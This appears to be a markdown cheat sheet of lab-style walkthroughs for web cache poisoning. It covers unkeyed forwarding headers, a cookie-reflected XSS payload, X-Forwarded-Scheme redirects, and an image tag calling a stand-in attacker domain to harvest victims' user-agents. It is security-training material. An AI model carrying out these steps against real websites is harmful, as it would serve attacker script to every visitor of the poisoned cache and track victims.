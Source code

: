 # Cache poisoning

## Summary
* [Web cached poisoning](#web-cached-poisoning)
* [Exploiting cache design flaws](#exploiting-cace-design-flaws)
	* [Unsafe handling of resource imports](#web-cache-poisoning-with-unsafe-handling-of-resource-imports)
	* [Cookie handling exploitation](#web-cache-poisoning-with-cookie-handling-vulnerabilities)
	* [Multiple headers exploitation](#web-cache-poisoning-with-multiple-headers)
	* [Unknown headers exploitation](#web-cache-poisoning-with-unknown-headers)

## Web-cached poisoning

 How to construct a web cache poisoning attack
```
> identify and evaluate unkeyed inputs
> elicit a harmful response from the back-end server
> get the response cached
```

 Getting informations from web-cached poisoning attack
```
> cache-control directives
	# when responses contain information about how often the cache is purged or how old the currently cached response is
		## HTTP/1.1 200 OK
		##	Via: 1.1 varnish-v4
		##	Age: 174
		##	Cache-Control: public, max-age=1800
	# vary header
		## this header specifies a list of headers that should be treated as part of the cache key even if they are normally unkeyed
```

## Exploiting cache design flaws
### Web cache poisoning with unsafe handling of resource imports
```
> assume a website imports resources from other domain
> load the website's home page and send the request to Burp
> add a cache-buster query parameter to test for unkeyed headers
> add "X-Forwarded-Host" with an arbitrary hostname such as example.com
> observe that the X-Forwarded-Host header is used to generate an absolute URL for importing resource stored at /resources/js/tracking.js
> resend the request and observe that the response contains the header X-Cache: hit meaning the response came from the cache
> in the local machine, add a new hostname with the machine's ip address
> navigate to /var/www/html and create /resources/js/tracking.js with tracking.js containing the necessary javascript payload then run a python http server
> Go back to the GET request for the home page in Burp and remove the cache-buster
> replace the previous arbitrary hostname with your machine's hostname then keep sending the request until the cache hit
> go back to the website and observe that the javascript payload is triggered each time a request is made
```

### Web cache poisoning with cookie-handling vulnerabilities
```
> assume the cookie header is unkeyed
> load the website's home page and send the request to Burp
> observe that the cookie fehost=prod-cache-01 is reflected inside a double-quoted JavaScript object in the response
> add a cache-buster query parameter and change the fehost value to arbitrary string
> observe that the string is reflected in the response
> create a suitable XSS payload to call an alert function
	# fehost=someString"-alert(1)-"someString
> remove the cache-buster and keep sending the request until the cache hit
> go back to the website and observe that the javascript payload is triggered each time a request is made
```

### Web cache poisoning with multiple headers
```
> assume a website imports resources from other domain stored at /resources/js/tracking.js
> load the GET request for /resources/js/tracking.js and send the request to Burp
> add a cache-buster query parameter to test for unkeyed headers
> add "X-Forwarded-Host" with an arbitrary hostname such as example.com
> observe that it does not has any effect on the response
> replace the 'X-Forwarded-Host' with 'X-Forwarded-Scheme' and include any value other than HTTPS then send the request
> you will get a 302 response and observe in the 'Location' header shows that you are redirected to the same URL you requested
> add the 'X-Forwarded-Host: example.com' header back to the request and send the request
> observe the 'Location' header shows that you are redirected to 'https://example.com/resources/js/tracking.js'
> change the 'X-Forwarded-Host' value to an attacker domain which already has the /resources/js/tracking.js hosted with tracking.js containing the necessary payload
> remove the cache-buster and send the request until the cache hit
> go back to the website and observe that the payload is triggered each time a request is made
```

### Web cache poisoning with unknown headers
```
> assume a website imports resources from other domain stored at /resources/js/tracking.js
> load the GET request for / and send the request to Burp
> in Burp HTTP history, right click on the request and select "Guest headers".
> the Param Miner report says there is a secret input in the form of "X-Host"
> send the GET request for / to repeater
> add a cache-buster query parameter and add "X-Host: example.com" as additional header then send the request
> observe that the X-Host header is used to generate an absolute URL for importing resource stored at /resources/js/tracking.js
> change the X-Host value to an attacker domain which already has the /resources/js/tracking.js hosted with tracking.js containing the necessary payload then keep sending the request until the cache hit
> right click on the request and copy the URL to see if the payload is successful
> to target a victim with a specific User-Agent, post a comment in one of the blog post containing '<img src="http://attacker.domain/"/>' to get the victim users when the view the comment
> open the attacker domain access logs to see the victim's user-agent
> copy the user-agent and replace with the original user-agent in the request 
> remove the cache-buster and keep sending the request until the cache hits
> go back to the website and observe that the payload is successful
```
